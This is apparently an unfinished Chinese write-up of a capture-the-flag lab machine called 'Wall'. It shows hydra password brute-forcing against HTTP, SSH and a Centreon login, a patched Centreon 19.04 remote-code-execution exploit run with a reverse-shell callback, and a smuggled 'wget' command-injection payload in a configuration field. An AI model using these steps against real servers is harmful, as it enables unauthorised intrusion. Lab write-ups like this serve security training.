 ```yaml
---
title: Wall-rce与绕过waf(上)
categories:
- training
tags:
- training
---
```

参考资料：
- [http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/](http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/)

- [apache Modsecurity waf绕过](https://www.cnblogs.com/rainy-shurun/p/5374789.html)

最近太忙了ORZ，这篇没做完...

## enumeration
22，80

Apache/2.4.29 (Ubuntu) Server 

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/1.PNG)
说明用户名可能是admin

```
cd /usr/share/wordlists
 hydra -l admin -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring

 hydra -l admin -P 3000-pass.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l panel -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l aa -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
```
## ssh
OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/6.PNG)

---
searchsploit -m exploits/linux/remote/45233.py
python 45233.py（type error代码错误）

searchsploit -m exploits/linux/remote/45210.py
python 45210.py (TypeError)

searchsploit -m exploits/linux/remote/45939.py
python 45939.py --port 22 10.10.10.157 root（TypeError: an integer is required）

---
hydra -l admin -P rockyou.txt 10.10.10.157 ssh

## web

### enumeration
dirb http://10.10.10.157 -X .php
存在的目录
http://10.10.10.157/aa.php
http://10.10.10.157/monitoring/
http://10.10.10.157/panel.php
http://10.10.10.157/centreon

nikto -h http://10.10.10.157
GET, POST, OPTIONS, HEAD 

---
未发现目录遍历

10.10.10.157/monitoring/../panel.php

跳转到panel.php

10.10.10.157/monitoring/../../../../../../../../../etc/passwd
无效

---

get改post请求，绕过登陆页面。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/7.PNG)

searchsploit centreon

searchsploit -m exploitdb/exploits/php/webapps/47069.py
v. 19.04.0

参考资料：[https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

[exp下载地址](https://gist.githubusercontent.com/mhaskar/c4255f6cf45b19b8a852c780f50576da/raw/f50ab5b4582986ca595055e53417bc2dfce1838e/centreon-exploit.py)

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/8.PNG)

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/9.PNG)

`python3.6 47069.py http://10.10.10.157/centreon admin passwd1 10.10.14.10 1330`

执行后报错，于是修改exp。

```
。。。。。。
  poller_soup = BeautifulSoup(poller_html)
Traceback (most recent call last):
  File "47069.py", line 57, in <module>
    poller_token = poller_soup.findAll('input')[24].get("value")
IndexError: list index out of range
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/10.PNG)

poller_token = poller_soup.find('input', {'name': 'centreon_token'}).get('value')

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/11.PNG)

python3 centreon-exploit.py http://10.10.10.157/centreon admin passwd1 IP 8080

反弹shell失败

修改后，无报错的exp地址：[https://github.com/Whale3070/ctf-coding/blob/master/47069.py](https://github.com/Whale3070/ctf-coding/blob/master/47069.py)

## 绕过waf

python3 47069.py http://10.10.10.157/centreon admin password1 10.10.14.18 8081

---
http://10.10.10.157/centreon/Themes/Centreon-2/

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/12.PNG)
目录遍历漏洞

---
+ http://10.10.10.157/centreon/a.php (CODE:200|SIZE:1)                                                   
+ http://10.10.10.157/centreon/index.php (CODE:200|SIZE:3091)                                            
+ http://10.10.10.157/centreon/main.php (CODE:302|SIZE:0)   
http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1
nagios_bin参数

http://10.10.10.157/centreon/main.get.php?p=60901
http://10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php

---
测试命令执行是否成功，修改payload为
```
wget http://10.10.14.10:888/1.txt #
```
失败
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/13.PNG)

---

```
hydra -L /usr/share/wordlists/rockyou.txt  -P /usr/share/wordlists/rockyou.txt -V -s 80 

10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l centreon  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l admin  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect." -t 4

admin/password1
centreon/#1bitch
```

## 存在的漏洞

centreon 19.04 rce
后台弱口令
apache目录遍历

## 根据python exp手动利用漏洞
19.04 版本漏洞
[https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html](https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html)

开启burp，首先访问http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/17.PNG)

![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/16.PNG)
注意图中的testpath

待续
